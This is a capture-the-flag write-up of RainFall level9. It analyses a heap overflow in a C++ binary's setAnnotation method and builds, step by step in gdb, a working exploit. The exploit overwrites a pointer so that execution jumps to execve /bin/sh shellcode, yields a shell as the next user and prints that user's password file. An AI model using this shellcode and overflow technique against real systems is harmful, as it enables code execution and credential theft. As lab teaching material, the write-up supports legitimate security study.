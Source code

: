 # level9

### First analysis

This level is pretty different from the other ones, since the decompiled version of this binary is a cpp file and not a c file like every single level since the beginning of RainFall. We are the last mandatory exercice so that's probably why. This is the adapted version that you can find in source.cpp of the binary:

```cpp
class N {
    private:
        int     value;
        char    annotation[108];
        
    public:
        N(int nbr): value(nbr) {}

        int operator+ (N &n) {
            return this->value += n.value;
        }

        int operator- (N &n) {
            return this->value -= n.value;
        }

        void setAnnotation(char *annotation) {
            memcpy(this->annotation, annotation, strlen(annotation));
        }
};

int main(int ac, char **av) {
    if (ac < 2)
        exit(1);
    
    N *a = new N(5);
    N *b = new N(6);

    a->setAnnotation(av[1]);

    return (*a + *b);
}
```

So we have a class N that has a value and an annotation field. A few functions are present, minus and plus operator, the constructor, and finally a setAnnotation that use memcpy to fill the annotation field. The main functions simply create two instances of N in the heap (new uses malloc), and set the annotation of the first one to av[1]. We can imagine that an overflow is possible by entering more than 108 chars into av[1] that will overflow the 108 buffer size of annotation. So this is what we tried first and we bserved that in gdb:

```sh
(gdb) run $(python -c "print 'A' * 1000")
Starting program: /home/user/level9/level9 $(python -c "print 'A' * 1000")
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info registers
eax            0x41414141	1094795585
ecx            0x41414141	1094795585
edx            0x804a3f4	134521844
ebx            0x804a078	134520952
esp            0xbffff320	0xbffff320
ebp            0xbffff348	0xbffff348
esi            0x0	0
edi            0x0	0
eip            0x8048682	0x8048682 <main+142>
eflags         0x210287	[ CF PF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

So we entered a huge buffer to see if variable were changed. Whereas the return value of the segfault didn't change, we observed that eax and edx were modified, so we indeed were writing in some part of the memory that was not intended by the program. We also used ltrace to retrieve the address of the memcpy used in setAnnotation and got this:

```sh
level9@RainFall:~$ ltrace ./level9 $(python -c "print 'A' * 1000")
__libc_start_main(0x80485f4, 2, 0xbffff404, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330)                     = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330)                                  = 0
_Znwj(108, 0xbffff404, 0xbffff410, 0xb7d79e55, 0xb7fed280)                                             = 0x804a008
_Znwj(108, 5, 0xbffff410, 0xb7d79e55, 0xb7fed280)                                                      = 0x804a078
strlen("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                                                          = 1000
memcpy(0x0804a00c, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 1000)                                        = 0x0804a00c
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

We can see that annotation seems to be stored in the heap at the address 0x0804a00c. So we tried to see what happened if we set a payload with 108 chars and 4 more chars of the address of annotation with the idea in mind that we could maybe inject a shellcode to solve this exercice:

```sh
(gdb) run $(python -c "print 'A' * 108 + '\x0c\xa0\x04\x08'")
Starting program: /home/user/level9/level9 $(python -c "print 'A' * 108 + '\x0c\xa0\x04\x08'")

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

This result is very interesting because apparently we managed to redirect the execution to the address 0x41414141. 41 being the hex value of A, we knew something happened, the theory was that by adding the address at the end, it would redirect the program at the beginning of the buffer of annotation, if it is the case then we might be able to execute this shellcode we had in mind. We then checked to be sure if this theory was true by setting only 4 B chars at the beginning of the buffer, then a bunch of A. If the address of segfault is 0x42424242, then it probably means that we can inject a shellcode and hopefully make the program interprets it:

```sh
(gdb) run $(python -c "print 'BBBB' + 'A' * 104 + '\x0c\xa0\x04\x08'")
Starting program: /home/user/level9/level9 $(python -c "print 'BBBB' + 'A' * 104 + '\x0c\xa0\x04\x08'")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

And for sure it is ! Sp we took our sheelcode we used in level2, a 21 chars long shellcode, and tried this payload:

```sh
(gdb) run $(python -c "print '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 'A' * 87 + '\x0c\xa0\x04\x08'")
Starting program: /home/user/level9/level9 $(python -c "print '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 'A' * 87 + '\x0c\xa0\x04\x08'")

Program received signal SIGSEGV, Segmentation fault.
0x99580b6a in ?? ()
```

Something weird and unexpected happens here. The address of segfault is the beginning of our shellcode... which means somehow this place of memory is interpreted as an address and not the shellcode. So we tried to replace this space of memory too with the address of the beginning of the buffer + 4 and this is what happened:

```sh
(gdb) run $(python -c "print '\x10\xa0\x04\x08' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\x90' * 83 + '\x0c\xa0\x04\x08'")

Starting program: /home/user/level9/level9 $(python -c "print '\x10\xa0\x04\x08' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\x90' * 83 + '\x0c\xa0\x04\x08'")
process 6037 is executing new program: /bin/dash
$ whoami
level9
```

What happens is that we redirect the end of the buffer to the beginning of the buffer, we then redirect the beginning of the buffer to buffer + 4. And it works ! We can now retrieve our flag:

```sh
level9@RainFall:~$ ./level9 $(python -c "print '\x10\xa0\x04\x08' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\x90' * 83 + '\x0c\xa0\x04\x08'")
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

